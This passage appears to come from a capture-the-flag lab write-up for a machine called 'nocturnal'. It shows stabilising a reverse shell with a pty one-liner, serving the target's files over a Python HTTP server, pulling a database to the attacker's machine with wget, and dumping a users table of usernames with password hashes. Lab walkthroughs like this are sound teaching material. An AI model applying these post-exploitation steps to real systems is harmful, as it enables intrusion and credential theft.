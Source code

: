 stabilize shell:
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

once inside, i searched for valuable files and folders
![Pasted image 20250527193958](MediaFiles/Pasted%20image%2020250527193958.png)
and found a folder that seems to be related to a database
![Pasted image 20250527194105](MediaFiles/Pasted%20image%2020250527194105.png)
but we cant view it here, lets download the file locally:

on the machines current directory:
```shell
python3 -m http.server 8000
```
on our machine
```shell
wget 10.10.11.64:8000/nocturnal_database.db
```
![Pasted image 20250527194533](MediaFiles/Pasted%20image%2020250527194533.png)
nice, we got the .db file locally, lets mess with it 

Found that the database has 2 tables
```
uploads
users
```

and by viewing the table users via sqlite, i found pairs of users and hashes.
`SELECT * FROM users;`
```shell
--------------------------------
admin
d725aeba143f575736b07e045d8ceebb
--------------------------------
amanda
df8b20aa0c935023f99ea58358fb63c4
--------------------------------
tobias
55c82b1ccd55ab219b3b109b07d5061d
--------------------------------
kavi
f38cde1654b39fea2bd4f72f1ae4cdda
--------------------------------
e0Al5
101ad4543a96a7fd84908fd0d802e7db
--------------------------------
```